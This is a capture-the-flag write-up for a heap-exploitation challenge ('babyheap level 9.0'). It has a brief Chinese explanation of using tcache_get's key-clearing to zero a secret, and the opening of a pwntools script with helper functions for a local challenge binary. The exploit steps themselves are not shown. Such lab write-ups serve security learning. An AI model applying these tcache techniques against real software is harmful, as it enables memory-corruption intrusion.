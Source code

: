 # Level 9.0

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to pass a validation check.

## Write-up

和上题一样，但是这次不能分配到 secret 附近了，泄漏完全不可能。不过还是可以利用 `tcache_get` 清空 key 的特性将 secret 完全清空，这样我们就知道 secret 为 NULL 了。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p32,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level9.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


```